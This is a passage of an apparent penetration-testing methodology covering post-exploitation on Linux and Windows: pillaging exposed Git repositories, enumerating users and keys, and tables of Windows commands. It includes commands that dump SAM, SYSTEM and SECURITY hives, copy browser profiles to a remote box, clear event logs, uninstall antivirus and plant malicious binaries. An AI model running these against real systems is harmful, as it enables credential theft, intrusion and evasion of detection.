-  Mapping connectivity in/out of every segment
-  Lateral connectivity

High value/profile targets
^^^^^^^^^^^^^^^^^^^^^^^^^^

<Contribution Needed>

Pillaging
~~~~~~~~~

<Contribution Needed>

Video Cameras
^^^^^^^^^^^^^

<Contribution Needed>

Data Exfiltration
^^^^^^^^^^^^^^^^^

<Contribution Needed>

-  identify web servers
-  identify ftp servers
-  DNS and ICMP tunnels
-  VoIP channels
-  Physical channels (printing, garbage disposal, courier)
-  Fax (on multifunction printers)

Locating Shares
^^^^^^^^^^^^^^^

<Contribution Needed>

Audio Capture
^^^^^^^^^^^^^

<Contribution Needed>

-  VoIP
-  Microphone

High Value Files
^^^^^^^^^^^^^^^^

<Contribution Needed>

Database Enumeration
^^^^^^^^^^^^^^^^^^^^

<Contribution Needed>

-  Checking for PPI
-  card data
-  passwords/user accounts

Wifi
^^^^

<Contribution Needed>

-  Steal wifi keys
-  Add new Wifi entries with higher preference then setup AP to force
   connection
-  Check ESSIDs to identify places visited

Source Code Repos
^^^^^^^^^^^^^^^^^

<Contribution Needed>

-  SVN
-  CVS
-  MS Sourcesafe
-  WebDAV

Git
^^^

Git is a distributed version control system (DVCS) and the meta
directory (.git) contains all the necessary information to re-create the
state of the repository at any given point in time.

Git is often used to deploy web applications and the .git meta directory
is sometimes available to pillage.

**Identify the repo**

One quick way to find the repo is to look for the file
http://example.com/.git/HEAD and see if it contains a match to ^ref:
refs/ W3AF (http://w3af.sourceforge.net/) contains a discovery plugin
named findGit.py that will assist in finding git repositories of web
targets.

Note: the .git directory is not always present in the root, but
sometimes in sub directories depending on how a part of the application
is deployed. Something like http://example.com/blog/.git/

**Cloning the repo**

::

    git clone http://example.com/

If an error like this is the result of the clone attempt then you have
to resort to pillaging in different ways as the repo is not easily
cloneable.

::

    fatal: http://example.com/info/refs not found: did you run git update-server-info on the server?

**Check for directory browsing**

If directory browsing is open for http://example.com/.git/objects then
wget can be used to download the repo and then re-construct it.

Example:

::

        wget -m —no-parent http://example.com/.git
        cd example.com
        git reset —hard

**Other useful data**

If both of these scenarios fail to get you the contents of the git repo
there is still other information that may be of value. These files with
predictable file names can contain very useful information and are
detailed below.

-  .git/index

“The index is a binary file (generally kept in .git/index) containing a
sorted list of path names, each with permissions and the SHA1 of a blob
object; git ls-files can show you the contents of the index:”
(http://book.git-scm.com/7\_the\_git\_index.html)

#. Platform details (.php, .cgi, etc)
#. Files that may contain configuration details (that are not rendered)
#. .old
#. .new
#. .bak
#. .tar.gz
#. .txt
#. Database dumps .sql

::

        mkdir example.com
        cd example.com
        mkdir .git
        wget get http://example.com/.git/index -O .git/index
        git init .
        git ls-files

-  .git/config

Contains repo locations, usernames / email addresses, possibly other
targets one could attack.

-  .git/logs/HEAD

Contains commit messages if any editing and committing has been done on
the server.

-  .git/hooks/\*

There are a number of files in the hooks directory that may contain
sensitive information depending on the environment.

Identify custom apps
^^^^^^^^^^^^^^^^^^^^

<Contribution Needed>

Backups
^^^^^^^

<Contribution Needed>

-  Locally stored backup files
-  Central backup server
-  Remote backup solutions
-  Tape storage

Business impact attacks
~~~~~~~~~~~~~~~~~~~~~~~

<Contribution Needed>

-  What makes the biz money
-  Steal It

Further penetration into infrastructure
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

<Contribution Needed>

-  Botnets

Pivoting inside
^^^^^^^^^^^^^^^

*Linux Commands*

Show users that have used ssh to connect to this host.

.. code-block::

    $ grep publickey /var/log/secure\*\|awk '{print $9"\\t"$11"\\t"$NF}'\|sort -u

    user1 ::ffff:10.0.0.1 ssh2 user2 ::ffff:10.0.0.2 ssh2 user3 ::ffff:10.0.0.3 ssh2

Show users that have used sudo.

.. code-block::

    $ grep sudo /var/log/secure\*\|awk -F:'{print $4}'\|sort -u

    user1 root user2 user4

Show users with active cron use.

.. code-block::

    $ cat /var/log/cron\* \|awk '$6 !~/Updated/ {print $6}'\|tr -d :math:``\ \|sort -u

    root user5 user1 user2

Look at a users password settings.

.. code-block::

    $ passwd -S appuser

    Password locked.

    $ passwd -S root

    Password set, MD5 crypt.

    $ passwd -S bin

    Alternate authentication scheme in use.

Users that have connected and from where.

.. code-block::

    $ for i in $(ls /var/log/wtmp\*);do last -adf ${i}\|awk '$1 !~ /wtmp/ {print $1,$NF}'\|sort -u; done

    user1 testhost.example.com root testhost2.example.com user2
    prodhost.example.com

Who is logged in right now and from where.

.. code-block::

    $ who -Hu NAME LINE TIME IDLE PID COMMENT user1 pts/0 Jun 2 10:39 . 28001 (testhost.example.com)

Pull IPv4 hosts from /etc/hosts, drop commented entries and localhost.

.. code-block::

    $ egrep -v "^[ \\t]\*#\|^[ \\t]\*$\|localhost" /etc/hosts 10.0.0.1 testhost.example.com testhost 10.0.0.2 testhost2.example.com testhost2 10.0.0.3 testhost3.example.com testhost3

Pull commented IPv4 hosts from /etc/hosts

.. code-block::

    $ egrep "^[ \\t]\*#+[\\t]\*([0-9]{1,3}\\.){3}[0-9]{1,3}" /etc/hosts

    10.0.0.4 testhost4.example.com testhost4

Pull IPv6 hosts from /etc/hosts

.. code-block::

    $ egrep "(([:xdigit:]{0,4})\\:?\\:{1}){0,7}\\:?\\:{1}([:xdigit:]{0,4})?" /etc/hosts

    1 loopback localhost # loopback (lo0) name/address
    1FFF ipv6test.example.com ipv6test

Pull hostnames from known\_hosts files for any user home you have acess to read.

.. code-block::

    $ for i in $(awk -F: '{print $6}' /etc/passwd\|sort -u); do awk '{print $1}' ${i}/.ssh/known\_hosts 2> /dev/null;done\|tr ',' '\\n'\|sort -u testhost testhost3 testhost4 ipv6test prodhost

Show private keys and if they are encrypted

.. code-block::

    $ for i in $(grep "PRIVATE" \*\|egrep -v "END"\|awk -F: '{print $1}'); do print ${i};grep ENCRYPTED ${i};echo;done id\_dsa

    id\_dsap Proc-Type: 4,ENCRYPTED
    id\_rsa32k Proc-Type: 4,ENCRYPTED
    id\_rsa512
    id\_rsa512p Proc-Type: 4,ENCRYPTED

Look at the public keys and pull their type. Numerical types are SSH protocol 1.

.. code-block::

    $ for i in $(ls \*.pub);do print ${i};awk '{print $1}'${i};echo;done id\_dsa.pub ssh-dss

    id\_dsap.pub ssh-dss
    id\_rsa16k.pub ssh-rsa
    id\_rsadef.pub ssh-rsa
    identity2048.pub 2048
    identity768p.pub 768
    identity864.pub 864

< Contribution Needed >

-  Windows Commands
-  Token Stealing and Reuse
-  Password Cracking
-  Wifi connections to other devices
-  Password Reuse
-  Keyloggers
-  User enumeration
-  From Windows DC or from individual machines
-  Linux passwd file
-  MSSQL Windows Auth users

History and Logs
''''''''''''''''

======= ===
command use
======= ===
date    Display date and time
df      Display disk free space
iostat  Kernel I/O statistics
netstat Network status and throughput
lsof    List of open files
ps      Process information
top     Display and update sorted process information
who     Display who is on the system Check ssh known hosts file Log files to see who connects to the server
======= ===

Linux

.bash\_history and other shell history files syslog

MySQL

-  MySQL History
-  syslog

Windows

-  Event Logs
-  Recent opened files
-  Browsers
-  Favorites
-  stored passwords
-  stored cookies
-  browsing history
-  browser cache files
-  syslog

Cleanup
^^^^^^^

<Contribution Needed>

-  Ensure documented steps of exploitation
-  Ensure proper cleanup
-  Remove Test Data
-  Leave no trace
-  Proper archiving and encryption of evidence to be handed back to
   customer
-  Restore database from backup where necessary

Persistence
~~~~~~~~~~~

<Contribution Needed>

1. Autostart Malware

2. Reverse Connections

3. Rootkits

-  User Mode
-  Kernel Based

4. C&C medium (http, dns, tcp, icmp)

5. Backdoors

6. Implants

7. VPN with credentials

Post Exploitation
-----------------

Post-exploitation activities are those that are conducted once a system
as been compromised. These activities vary based upon the type of
operating system. They can very from running simple "whoami" to
enumerating local accounts.

Windows Post Exploitation
~~~~~~~~~~~~~~~~~~~~~~~~~

Blind Files
^^^^^^^^^^^

| (Things to pull when all you can do is to blindly read) LFI/Directory
  traversal(s). Files that will have the same name across networks /
  Windows domains / systems.
| {\| ! align="left"\| File ! Expected Contents / Description \|-
  \|\ ``%SYSTEMDRIVE%\boot.ini`` \|A file that can be counted on to be
  on virtually every windows host. Helps with confirmation that a read
  is happening. \|- \|\ ``%WINDIR%\win.ini`` \|This is another file to
  look for if boot.ini isn’t there or coming back, which is some times
  the case. \|- \|\ ``%SYSTEMROOT%\repair\SAM``
| ``%SYSTEMROOT%\System32\config\RegBack\SAM`` \|It stores users'
  passwords in a hashed format (in LM hash and NTLM hash). \|-
  \|\ ``%SYSTEMROOT%\repair\system``
| ``%SYSTEMROOT%\System32\config\RegBack\system`` \| \|}

Non Interactive Command Execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

+----+----+
+----+----+

System
^^^^^^

+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Command                                                                                    | Expected Output or Description                                                                                                                                                  |
+============================================================================================+=================================================================================================================================================================================+
|                                                                                            | Lists your current user. Not present in all versions of Windows; however shall be present in Windows NT 6.0-6.1.                                                                |
+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``whoami /all``                                                                            | Lists current user, sid, groups current user is a member of and their sids as well as current privilege level.                                                                  |
+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``set``                                                                                    | Shows all current environmental variables. Specific ones to look for are USERDOMAIN, USERNAME, USERPROFILE, HOMEPATH, LOGONSERVER, COMPUTERNAME, APPDATA, and ALLUSERPROFILE.   |
+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``fsutil fsinfo drives``                                                                   | Must be an administrator to run this, but it lists the current drives on the system.                                                                                            |
+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>reg query HKLM /s /d /f "C:\* *.exe" | find /I "C:\" | find /V """"</nowiki>``   | Locates insecurely registered executables within the system registry on Windows 7.                                                                                              |
+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

Networking (ipconfig, netstat, net)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| align=left"\|Command                                    | Expected Output or Description                                                                                                                                                                                                        |
+=========================================================+=======================================================================================================================================================================================================================================+
| ``ipconfig /all``                                       | Displays the full information about your NIC’s.                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``ipconfig /displaydns``                                | Displays your local DNS cache.                                                                                                                                                                                                        |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``netstat -nabo``                                       |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>netstat -s -p [tcp|udp|icpm|ip]</nowiki>``    |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``netstat -r``                                          |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>netstat -na | findstr :445</nowiki>``         |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>netstat -nao | findstr LISTENING</nowiki>``   | XP and up for -o flag to get PIDnet acc                                                                                                                                                                                               |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>netstat -nao | findstr LISTENING</nowiki>``   | XP and up for -o flag to get PID                                                                                                                                                                                                      |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>netstat -na | findstr LISTENING</nowiki>``    |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``netsh diag show all``                                 |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net view``                                            | Queries NBNS/SMB (SAMBA) and tries to find all hosts in your current workgroup.                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net view /domain``                                    |                                                                                                                                                                                                                                       |
| ``net view /domain:otherdomain``                        |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net user %USERNAME% /domain``                         | Pulls information on the current user, if they are a domain user. If you are a local user then you just drop the /domain. Important things to note are login times, last time changed password, logon scripts, and group membership   |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net user /domain``                                    | Lists all of the domain users                                                                                                                                                                                                         |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net accounts``                                        | Prints the password policy for the local system. This can be different and superseded by the domain policy.                                                                                                                           |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net accounts /domain``                                | Prints the password policy for the domain                                                                                                                                                                                             |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net localgroup administrators``                       | Prints the members of the Administrators local group                                                                                                                                                                                  |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net localgroup administrators /domain``               | As this was supposed to use localgroup & domain, this actually another way of getting \*current\* domain admins                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net group “Domain Admins” /domain``                   | Prints the members of the Domain Admins group                                                                                                                                                                                         |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net group “Enterprise Admins” /domain``               | Prints the members of the Enterprise Admins group                                                                                                                                                                                     |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net group “Domain Controllers” /domain``              | Prints the list of Domain Controllers for the current domain                                                                                                                                                                          |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``nbtstat -a [ip here]``                                |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net share``                                           | Displays your currently shared SMB entries, and what path(s) they point to                                                                                                                                                            |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net session | find / “\\”``                           |                                                                                                                                                                                                                                       |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``arp -a``                                              | Lists all the systems currently in the machine’s ARP table.                                                                                                                                                                           |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``route print``                                         | Prints the machine’s routing table. This can be good for finding other networks and static routes that have been put in place                                                                                                         |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``browstat``                                            | Not working on XP                                                                                                                                                                                                                     |
+---------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

http://www.securityaegis.com/ntsd-backdoor/

Configs
^^^^^^^

+------------------------------------------------+-----------------------------------------------------------------------------------------------------+
| align=left"\|Command                           | Expected Output or Description                                                                      |
+================================================+=====================================================================================================+
| ``gpresult /z``                                | Extremely verbose output of GPO (Group policy) settings as applied to the current system and user   |
+------------------------------------------------+-----------------------------------------------------------------------------------------------------+
| ``sc qc``                                      |                                                                                                     |
+------------------------------------------------+-----------------------------------------------------------------------------------------------------+
| ``sc query``                                   |                                                                                                     |
+------------------------------------------------+-----------------------------------------------------------------------------------------------------+
| ``sc queryex``                                 |                                                                                                     |
+------------------------------------------------+-----------------------------------------------------------------------------------------------------+
| ``type %WINDIR%\System32\drivers\etc\hosts``   | Print the contents of the Windows hosts file                                                        |
+------------------------------------------------+-----------------------------------------------------------------------------------------------------+
| ``dir %PROGRAMFILES%``                         | Prints a directory listing of the Program Files directory.                                          |
+------------------------------------------------+-----------------------------------------------------------------------------------------------------+
| ``echo %COMSPEC%``                             | Usually going to be cmd.exe in the Windows directory, but it’s good to know for sure.               |
+------------------------------------------------+-----------------------------------------------------------------------------------------------------+

Finding Important Files
^^^^^^^^^^^^^^^^^^^^^^^

+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| align=left"\|Command                                        | Expected Output or Description                                                                                                                                                                                                               |
+=============================================================+==============================================================================================================================================================================================================================================+
| ``tree C:\ /f /a > C:\output_of_tree.txt``                  | Prints a directory listing in ‘tree’ format. The /a makes the tree printed with ASCII characters instead of special ones and the /f displays file names as well as folders                                                                   |
+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``dir /a``                                                  |                                                                                                                                                                                                                                              |
+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``dir /b /s [Directory or Filename]``                       |                                                                                                                                                                                                                                              |
+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>dir \ /s /b | find /I “searchstring”</nowiki>``   | Searches the output of dir from the root of the drive current drive (\\) and all sub drectories (/s) using the ‘base’ format (/b) so that it outputs the full path for each listing, for ‘searchstring’ anywhere in the file name or path.   |
+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``<nowiki>command | find /c /v “”</nowiki>``                | Counts the lines of whatever you use for ‘command’                                                                                                                                                                                           |
+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

Files To Pull (if possible)
^^^^^^^^^^^^^^^^^^^^^^^^^^^

+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| align=left"\|File location                                  | Description / Reason                                                                                                                    |
+=============================================================+=========================================================================================================================================+
| ``%SYSTEMDRIVE%\pagefile.sys``                              | Large file, but contains spill over from RAM, usually lots of good information can be pulled, but should be a last resort due to size   |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\debug\NetSetup.log``                             |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\repair\sam``                                     |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\repair\system``                                  |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\repair\software``                                |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\repair\security``                                |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\iis6.log``                                       | iis5.log, ii6.log or iis7.log                                                                                                           |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\logfiles\httperr\httperr1.log``         | IIS 6 error log                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%SystemDrive%\inetpub\logs\LogFiles``                     | IIS 7’s logs location                                                                                                                   |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\logfiles\w3svc1\exYYMMDD.log``          | Year month day                                                                                                                          |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\config\AppEvent.Evt``                   |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\config\SecEvent.Evt``                   |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\config\default.sav``                    |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\config\security.sav``                   |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\config\software.sav``                   |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\config\system.sav``                     |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\system32\CCM\logs\*.log``                        |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%USERPROFILE%\ntuser.dat``                                |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat``   |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+
| ``%WINDIR%\System32\drivers\etc\hosts``                     |                                                                                                                                         |
+-------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------+

Remote System Access
^^^^^^^^^^^^^^^^^^^^

+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| align=left"\|Command                                                                                                           | Description / Reason                                                                                                                                                                                       |
+================================================================================================================================+============================================================================================================================================================================================================+
| ``net share \\computername``                                                                                                   |                                                                                                                                                                                                            |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``tasklist /V /S computername``                                                                                                |                                                                                                                                                                                                            |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``qwinsta /SERVER:computername``                                                                                               |                                                                                                                                                                                                            |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``qprocess /SERVER:computername *``                                                                                            |                                                                                                                                                                                                            |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net use \\computername``                                                                                                     | This maps IPC$ which does not show up as a drive but allows you to access the remote system as the current user. This is less helpful as most commands will automatically make this connection if needed   |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net use \\computername /user:DOMAIN\username password``                                                                      | Using the IPC$ mount use a user name and password allows you to access commands that do not usually ask for a username and password as a different user in the context of the remote system.               |
|                                                                                                                                |                                                                                                                                                                                                            |
|                                                                                                                                | This is useful when you’ve gotten credentials from somewhere and wish to use them but do not have an active token on a machine you have a session on.                                                      |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f``   | Enable remote desktop.                                                                                                                                                                                     |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f``      | Enable remote assistance                                                                                                                                                                                   |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net time \\computername``                                                                                                    | Shows the time of target computer)                                                                                                                                                                         |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``dir \\computername\share_or_admin_share\``                                                                                   | dir list a remote directory                                                                                                                                                                                |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``tasklist /V /S computername``                                                                                                | Lists tasks w/users running those tasks on a remote system. This will remove any IPC$ connection after it is done so if you are using another user, you need to re-initiate the IPC$ mount                 |
+--------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

Auto-Start Directories
^^^^^^^^^^^^^^^^^^^^^^

| ``ver`` Returns kernel version - like uname on \*nix)
| {\| ! align=left"\|Version !Location \|- \|Windows NT 6.1, 6.0
  \|%SystemDrive%\\ProgramData\\Microsoft\\Windows\\Start
  Menu\\Programs\\Startup\\ \|- \|Windows NT 5.2, 5.1, 5,0
  \|%SystemDrive%\\Documents And Settings\\All Users\\Start
  Menu\\Programs\\StartUp\\ \|- \|Windows 9x
  \|%SystemDrive%\\wmiOWS\\Start Menu\\Programs\\StartUp\\ \|- \|Windows
  NT 4.0, 3.51, 3.50 \|%SystemDrive%\\WINNT\\Profiles\\All Users\\Start
  Menu\\Programs\\StartUp\\ \|}

Binary Planting
^^^^^^^^^^^^^^^

+---------------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| align=left"\|Location / File name     | Reason / Description                                                                                                                                                                                  |
+=======================================+=======================================================================================================================================================================================================+
| ``msiexec.exe``                       | Idea taken from here: http://goo.gl/E3LTa - basically put evil binary named msiexec.exe in Downloads directory and when a installer calles msiexec without specifying path, you get code execution.   |
+---------------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``%SystemRoot%\System32\wbem\mof\``   | Taken from stuxnet: http://blogs.iss.net/archive/papers/ibm-xforce-an-inside-look-at-stuxnet.pdf Look for Print spooler vuln                                                                          |
+---------------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

-  WMI

   -  ``wmic bios``
   -  ``wmic``
   -  ``wmic qfe get hotfixid``

      -  This gets patches IDs

   -  ``wmic startup``
   -  ``wmic service``
   -  ``wmic process``

      -  Get caption,executablepath,commandline

   -  ``wmic process call create “process_name”``

      -  Executes a program

   -  ``wmic process where name=”process_name” call terminate``

      -  Terminates program

   -  ``wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size, volumeserialnumber``

      -  Hard drive information

   -  ``wmic useraccount``

      -  Usernames, sid, and various security related goodies

   -  ``wmic useraccount get /ALL``
   -  ``wmic share get /ALL``

      -  You can use ? for gets help

   -  ``wmic startup list full``

      -  This can be a huge list!!!

   -  ``wmic /node:"hostname" bios get serialnumber``

      -  This can be great for finding warranty info about target

-  Reg Command exit

   -  ``reg save HKLM\Security security.hive`` (Save security hive to a
      file)
   -  ``reg save HKLM\System system.hive`` (Save system hive to a file)
   -  ``reg save HKLM\SAM sam.hive`` (Save sam to a file)
   -  ``reg add [\\TargetIPaddr\] [RegDomain][ \Key ]``
   -  ``reg export [RegDomain]\[Key] [FileName]``
   -  ``reg import [FileName ]``
   -  ``reg query [\\TargetIPaddr\] [RegDomain]\[ Key ] /v [Valuename!]``
      (you can to add /s for recurse all values )

Deleting Logs
^^^^^^^^^^^^^

| ``wevtutil el`` (list logs)
| ``wevtutil cl <LogName>`` (Clear specific lowbadming)
| ``del %WINDIR%\*.log /a /s /q /f``

Uninstalling Software “AntiVirus” (Non interactive)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

| ``wmic product get name /value``\ (this gets software names)
| ``wmic product where name="XXX" call uninstall /nointeractive``\ (this
  uninstalls software)

Other
^^^^^

| ``pkgmgr usefull  /iu :”Package”``
| ``pkgmgr usefull  /iu :”TelnetServer”``\ (Install Telnet Service ...)
| ``pkgmgr /iu:”TelnetClient”``\ (Client )
| ``rundll32.exe user32.dll, LockWorkStation``\ (locks the screen
  -invasive-)
| ``wscript.exe <script js/vbs>``
| ``cscript.exe <script js/vbs/c#>``
| ``xcopy /C /S %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\your_box\firefox_funstuff``

Operating Specific
''''''''''''''''''

Win2k3


``winpop stat domainname``

Vista/7


| ``winstat features``
| ``wbadmin get status``
| ``wbadmin get items``
| ``gpresult /H gpols.htm``\ ``<br>
  <code>bcdedit /export <filename>``

Vista SP1/7/2008/2008R2 (x86 & x64)


| Enable/Disable Windows features with Deployment Image Servicing and
  Management (DISM):

-  Note\* Works well after bypassuac + getsystem (requires system
   privileges)

-  Note2\* For Dism.exe to work on x64 systems, the long commands are
   necessary

| To list features which can be enabled/disabled:
| ``%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /get-features``
|  To enable a feature (TFTP client for example):
|
  ``%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /enable-feature /featurename:TFTP``
|  To disable a feature (again TFTP client):
|
  ``%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /disable-feature /featurename:TFTP``

Invasive or Altering Commands
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

These commands change things on the target and can lead to getting
detected

+-----------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
